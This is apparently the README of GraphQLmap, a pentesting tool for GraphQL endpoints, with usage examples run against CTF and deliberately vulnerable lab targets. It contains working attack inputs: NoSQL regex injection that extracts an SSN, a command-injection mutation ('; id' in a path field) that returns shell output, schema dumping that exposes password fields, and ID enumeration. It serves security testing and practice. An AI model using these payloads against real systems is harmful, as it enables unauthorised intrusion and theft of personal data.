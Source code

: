 # GraphQLmap

> GraphQLmap is a scripting engine to interact with a graphql endpoint for pentesting purposes.


* [Install](#install)
* [Features and examples](#features-and-examples)
  - [Dump a GraphQL schema](#dump-a-graphql-schema)
  - [Interact with a GraphQL endpoint](#interact-with-a-graphql-endpoint)
  - [Execute GraphQL queries](#)
  - [Autocomplete queries](#)
  - [GraphQL field fuzzing](#graphql-field-fuzzing)
    - [Example 1 - Bruteforce a character](#example-1---bruteforce-a-character)
    - [Example 2 - Iterate over a number](#example-2---iterate-over-a-number)
  - [NoSQL injection inside a GraphQL field](#nosql-injection)
  - [SQL injection inside a GraphQL field](#sqli-injection)

I :heart: pull requests, feel free to improve this script :)

You can also contribute with a :beers: IRL or using Github Sponsoring button.

## Install

```basic
$ git clone https://github.com/techanv-bot/GraphQLmap
$ python setup.py install
$ graphqlmap                                                              
   _____                 _      ____  _                            
  / ____|               | |    / __ \| |                           
 | |  __ _ __ __ _ _ __ | |__ | |  | | |     _ __ ___   __ _ _ __  
 | | |_ | '__/ _` | '_ \| '_ \| |  | | |    | '_ ` _ \ / _` | '_ \ 
 | |__| | | | (_| | |_) | | | | |__| | |____| | | | | | (_| | |_) |
  \_____|_|  \__,_| .__/|_| |_|\___\_\______|_| |_| |_|\__,_| .__/ 
                  | |                                       | |    
                  |_|                                       |_|    
                                         Author:Swissky Version:1.0
usage: graphqlmap.py [-h] [-u URL] [-v [VERBOSITY]] [--method [METHOD]] [--headers [HEADERS]] [--json [USE_JSON]] [--proxy [PROXY]]

optional arguments:
  -h, --help           show this help message and exit
  -u URL               URL to query : example.com/graphql?query={}
  -v [VERBOSITY]       Enable verbosity
  --method [METHOD]    HTTP Method to use interact with /graphql endpoint
  --headers [HEADERS]  HTTP Headers sent to /graphql endpoint
  --json [USE_JSON]    Use JSON encoding, implies POST
  --proxy [PROXY]      HTTP proxy to log requests
```

Development setup

```ps1
python -m venv .venv
source .venv/bin/activate
pip install --editable .
pip install -r requirements.txt
./bin/graphqlmap -u http://127.0.0.1:5013/graphql
```


## Features and examples

:warning: Examples are based on several CTF challenges from HIP2019.

### Connect to a graphql endpoint

```py
# Connect using POST and providing an authentication token
graphqlmap -u https://yourhostname.com/graphql -v --method POST --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXh0Ijoibm8gc2VjcmV0cyBoZXJlID1QIn0.JqqdOesC-R4LtOS9H0y7bIq-M8AGYjK92x4K3hcBA6o"}'

# Pass request through Burp Proxy
graphqlmap -u "http://172.17.0.1:5013/graphql" --proxy http://127.0.0.1:8080
```

### Dump a GraphQL schema

Use `dump_new` to dump the GraphQL schema, this function will automatically populate the "autocomplete" with the found fields.    
[:movie_camera: Live Example](https://asciinema.org/a/14YuWoDOyCztlx7RFykILit4S)

```powershell
GraphQLmap > dump_new                     
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)                   
                                                                                               
Query                                          
        doctor[]: email (String!),                                                             
        doctors[Doctor]:                                                                       
        patients[Patient]:                                                                     
        patient[]: id (ID!),                   
        allrendezvous[Rendezvous]:                                                             
        rendezvous[]: id (ID!),                                                                
Doctor                                         
        id[ID]:                                                                                
        firstName[String]:                     
        lastName[String]:                                                                      
        specialty[String]:                     
        patients[None]: 
        rendezvous[None]: 
        email[String]: 
        password[String]: 
[...]
```


### Interact with a GraphQL endpoint

Write a GraphQL request and execute it.

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{
    "data": {
        "doctors": [
            {
                "firstName": "Admin",
                "id": "5d089c51dcab2d0032fdd08d",
                "lastName": "Admin"
            }
        ]
    }
}
```

It also works with `mutations`, they must be written in a single line.

```ps1
# ./bin/graphqlmap -u http://127.0.0.1:5013/graphql --proxy http://127.0.0.1:8080 --method POST
GraphQLmap > mutation { importPaste(host:"localhost", port:80, path:"/ ; id", scheme:"http"){ result }}
{
    "data": {
        "importPaste": {
            "result": "uid=1000(dvga) gid=1000(dvga) groups=1000(dvga)\n"
        {
    {
{
```


### GraphQL field fuzzing

Use `GRAPHQL_INCREMENT` and `GRAPHQL_CHARSET` to fuzz a parameter.      
[:movie_camera: Live Example](https://asciinema.org/a/ICCz3PqHVNrBf262x6tQfuwqT)

#### Example 1 - Bruteforce a character

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi!\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi%\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi+\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi,\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi-\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi.\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi/\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}     
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi?\"} }"){firstName lastName id}}
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
```

#### Example 2 - Iterate over a number

Use `GRAPHQL_INCREMENT_` followed by a number.

```powershell
GraphQLmap > { paste(pId: "GRAPHQL_INCREMENT_10") {id,title,content,public,userAgent} }
[+] Query: (45) { paste(pId: "0") {id,title,content,public,userAgent} }
[+] Query: (245) { paste(pId: "1") {id,title,content,public,userAgent} }
[+] Query: (371) { paste(pId: "2") {id,title,content,public,userAgent} }
[+] Query: (309) { paste(pId: "3") {id,title,content,public,userAgent} }
[+] Query: (311) { paste(pId: "4") {id,title,content,public,userAgent} }
[+] Query: (308) { paste(pId: "5") {id,title,content,public,userAgent} }
[+] Query: (375) { paste(pId: "6") {id,title,content,public,userAgent} }
[+] Query: (315) { paste(pId: "7") {id,title,content,public,userAgent} }
[+] Query: (336) { paste(pId: "8") {id,title,content,public,userAgent} }
[+] Query: (377) { paste(pId: "9") {id,title,content,public,userAgent} }

GraphQLmap > { paste(pId: "9") {id,title,content,public,userAgent} }
{ paste(pId: "9") {id,title,content,public,userAgent} }
{
    "data": {
        "paste": {
            "content": "I was excited to spend time with my wife without being interrupted by kids.",
            "id": "UGFzdGVPYmplY3Q6OQ==",
            "public": true,
            "title": "This is my first paste",
            "userAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0"
        }
    }
}
```

### GraphQL Batching

GraphQL supports Request Batching. Batched requests are processed one after the other by GraphQL
Use `BATCHING_PLACEHOLDER` before a query to send it multiple times inside a single request.

```ps1
GraphQLmap > BATCHING_3 {__schema{ types{namea}}}
[+] Sending a batch of 3 queries
[+] Successfully received 3 outputs

GraphQLmap > BATCHING_2 {systemUpdate}
[+] Sending a batch of 2 queries
[+] Successfully received 2 outputs
```

### NoSQLi injection

Use `BLIND_PLACEHOLDER` inside the query for the `nosqli` function.    
[:movie_camera: Live Example](https://asciinema.org/a/wp2lixHqRV0pxxhZ8nsgUj6s7)

```powershell
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
Charset > 0123456789abcdef-
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
GraphQLmap >
```

### SQL injection 

```powershell
GraphQLmap > postgresqli
GraphQLmap > mysqli
GraphQLmap > mssqli
```

## Practice

* [Damn Vulnerable GraphQL Application - @dolevf](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application/blob/master/setup.py) : `docker run -t -p 5013:5013 -e WEB_HOST=0.0.0.0 dolevf/dvga`

## TODO

* GraphQL Field Suggestions
* Generate mutation query
* Unit tests
* Handle node
```
{
  user {
    edges {
      node {
        username
      }
    }
  }
}
```
